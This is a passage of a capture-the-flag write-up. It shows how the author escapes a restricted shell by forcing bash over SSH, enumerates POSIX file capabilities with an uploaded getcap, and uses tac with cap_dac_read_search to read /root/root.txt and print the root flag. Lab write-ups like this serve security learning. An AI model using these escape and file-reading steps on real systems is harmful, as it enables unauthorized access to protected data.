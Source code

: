 But this is a restricted shell... however this is easily bypassed with:
```bash
waldo:~$ ssh monitor@localhost -i .ssh/.monitor -t bash --noprofile --norc
bash-4.4$
```

Now from here we can see that one folder is called `app-dev` and contains the source code of an executable called `logMonitor` when compiling and running it, the code does not work and return an error:
```bash
bash-4.4$ make clean
rm *.o *.gch logMonitor
bash-4.4$ make
gcc -Wall logMonitor.h
gcc -Wall -c logMonitor.c
gcc -Wall -o logMonitor logMonitor.o 
bash-4.4$ chmod u+x logMonitor
bash-4.4$ ./logMonitor -s
Cannot open file
```

However, runnin the executable located in the `v0.1` subfolder works:
```bash
bash-4.4$ v0.1/logMonitor-0.1 -s
Aug 15 10:33:13 waldo liblogging-stdlog:  [origin software="rsyslogd" swVersion="8.24.0" x-pid="403" x-info="http://www.rsyslog.com"] rsyslogd was HUPed
Aug 15 10:33:13 waldo liblogging-stdlog:  [origin software="rsyslogd" swVersion="8.24.0" x-pid="403" x-info="http://www.rsyslog.com"] rsyslogd was HUPed
[CUT CUT CUT]
```

After lots of googling, it appears that this is due to POSIX capabilities. The tool to check those is `getcap` and is not present on the box. We can however upload it through both SSH sessions and it works. I uploaded it to `/tmp/gc` and checked the capabilities of both logMonitor programs:
```bash
bash-4.4$ /tmp/gc logMonitor v0.1/logMonitor-0.1
v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

We see that the v0.1 has the `cap_dac_read_search` capability, the other has nothing (no result). From here, if we could exploit the binary it would be easy to read arbitrary files (the flag !). However, I couldn't do that. Instead, I used `getcap` to recusrsively check all capabilities on the filesystem as follows:
```bash
bash-4.4$ /tmp/gc -r / > /tmp/caps
[CUT CUT CUT]
bash-4.4$ cat /tmp/caps
./usr/bin/tac = cap_dac_read_search+ei
./home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

So we can apparently use the tac program with the same capability, let's use it to read the flag:
```bash
bash-4.4$ tac /root/root.txt
8fb67c84418be6e45fbd348fd4584f6c
```
